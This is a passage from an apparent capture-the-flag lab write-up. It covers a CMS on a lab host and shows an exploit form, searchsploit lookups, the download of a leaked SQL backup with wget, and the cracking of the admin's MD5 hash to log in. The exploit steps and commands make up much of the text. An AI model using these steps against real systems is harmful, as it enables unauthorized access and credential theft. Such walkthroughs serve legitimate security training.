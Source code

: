 	```HTML
	<form action="http://10.10.111.97/content/as/?type=ad&mode=save" method="POST" name="exploit">
	```

* ### Attempting execution

	> firefox 40700.html

	A login page appears, most probably for the admin panle access. Trying `admin/admin` and `admin/password`.

	Login failed!

* ### Back to exploits

	There's another exploit in the searchsploit result which might be helpful: Backup Disclosure. There is a possibility of storage of admin panel's credentials if a backup file is found!

	> searchsploit -m php/webapps/40718.txt

	The text file gives the location for a backup file. This location, just like the previous HTML code, needs to be adjusted to our needs:

	```
	http://10.10.111.97/content/inc/mysql_backup
	```

	An SQL database is found at the above location.

	> wget http://10.10.111.97/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql

	> cat mysql_bakup_20191129023059-1.5.1.sql | grep admin

	This reveals a bunch of SQL database queries, among which something peculiar shows up.

	```
	"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
	``` 

	From the above output, the user-name for admin appears to be `manager` and the password appears to be encrypted using a hash of 32 characters.

	Trying out on [CrackStation](https://crackstation.net/).

	```
	+----------------------------------+------+-------------+
	| Hash                             | Type | Result      |
	+----------------------------------+------+-------------+
	| 42f749ade7f9e195bf475f37a44cafcb | md5  | Password123 |
	+----------------------------------+------+-------------+
	```

* ### Attempting login with (`manager/Password123`)

	Login successful, but there isn't any sign of the word `hacked` as the PHP Execution Code exploit stated.

	Maybe there's a need to create a login session, and then try the PHP exploit.
